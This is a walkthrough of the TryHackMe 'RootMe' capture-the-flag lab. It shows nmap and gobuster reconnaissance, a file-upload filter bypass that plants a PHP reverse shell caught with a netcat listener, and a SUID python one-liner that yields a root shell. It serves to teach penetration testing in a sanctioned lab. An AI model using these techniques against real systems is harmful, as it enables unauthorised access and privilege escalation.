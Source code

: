 +++
title = "Root Me"
date = "2025-02-09"
+++

# Try Hack Me - RootMe
A ctf for beginners, can you root me?
<br>
---
## Reconnaissance
1. Scan the machine, how many ports are open?
	Here is the nmap scann commands that I am going to be using.
	```
	nmap -sC -sV -T4 -A -oN nmap/result <IP>
	```
	Breakdown:
	```
	-A: do an extensive scan on these ports

	-sC: Scan with default NSE scripts. Considered useful for discovery and safe

	-sV: Attempts to determine the version of the service running on port

	-T4: speed of nmap scan is 4/5 (personal preference of mine)

	-oN: Normal output to the file normal.file
	```
2. What version of Apache is running?
		Let's review out nmap scans and see if we are able to find what version of Apache we are running.
	```
	Host is up (0.14s latency).
	Not shown: 998 closed ports
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
	|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
	|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
	| http-cookie-flags: 
	|   /: 
	|     PHPSESSID: 
	|_      httponly flag not set
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	|_http-title: HackIT - Home
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	```

3. What service is running on port 22?
	If you review the resutls fo the nmap scan you will see that there is a service running on port 22.
 4. Find directories on the web server using the GoBuster tool.
 	We are going to run the following gobuster command to search for the hidden directory that they want us to find.
	 ```
	 gobuster dir -t 40 -u <IP> -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
	 ```
	 Breakdown:
	 ```
	-u: Full URL (including scheme), or base domain name.

	-t: Thread Usage, declare how mand thread you would like gobuster to use. (Default is 10)

	-w: Path to the wordlist used for brute forcing (use – for stdin)
	```

 5. What is the hidden directory?
	 Do any of these directiores stand out!
	 ```
	 ===============================================================
	Gobuster v3.0.1
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
	===============================================================
	[+] Url:            http://<IP>/
	[+] Threads:        40
	[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
	[+] Status codes:   200,204,301,302,307,401,403
	[+] User Agent:     gobuster/3.0.1
	[+] Timeout:        10s
	===============================================================
	2021/02/11 19:14:32 Starting gobuster
	===============================================================
	/uploads (Status: 301)
	/css (Status: 301)
	/js (Status: 301)
	/panel (Status: 301)
	Progress: 23943 / 220561 (10.86%)^C
	[!] Keyboard interrupt detected, terminating.
	===============================================================
	2021/02/11 19:15:44 Finished
	===============================================================

	 ```
---
## Getting a shell
1. Find a form to upload and get a reverse shell, and find the flag.
	In out last question we found a hidden directory.
	Let's open up our browser and got the following `http:\\<IP>\uploads`
{{< figure src="/images/rootme/1.png" width="200">}}
	Now lets try and upload a php reverse shell.  
	[Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) is a great resourse for us to use.
	Now that we have our reverse shell let's add the ip address of our device into it and pick out a port we want to listen in on.
	Ok, lets try and upload our reverse shell... It looks like are now able to upload our file.
{{< figure src="/images/rootme/2.png" width="200">}}
	How about we change the extention from PHP to PHP5 and then try again.
	How about them apples, it uploaded. 
	Before we try and excute our payload lets set up a netcat listener.
	`nc -nlvp <port#>`
	Once our listener has been set up lets pull the trigger on our reverse shell and see if a connection can be made.
{{< figure src="/images/rootme/3.png" width="200">}}
BOOM!! We have a connection.
The next thing we need to do is find the user.txt file.
I tried looking in all the stander places like the current user directory and in the home directory but I did not have any luck.
So I decided to use the find command `find / -type f -name user.txt 2> /dev/null`
With this command I was able to locate where our user.txt file is. 
Now all we need to do is cat out the content of our user.txt file and we will have our flag.  

Breakdown:
```
* -type f – you are telling find to look exclusively for files
* -name user.txt – instructing the find command to search for a file with the name “user.txt”
* 2> /dev/null – so error messages do not show up as part of the search result 
```


## Privilege escalation
---
1. Search for files with SUID permission, which file is weird?
	Again here we are going to be using the `find` command to help us locate our file with a weird SUID permission.
```
find / -type f -user root -perm -u=s 2> /dev/null_**
```
Now how can use leverage this what we have found to escalate out privileges to a root shell.
[GTFO Bins](https://gtfobins.github.io/gtfobins/python/#suid) is another great resourse that we can use. 
Let's head over there and look up the SUID for python.
It seems that we are that we are able to use the code below to gain a root shell.
````
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
````
2. root.txt
	One we have verified that we are actually running as root we will just need to cat out the content of out root.txt file.
`cat /root/root.txt`

# Congratulations you have just completed the RootMe challenge from TryHackMe!
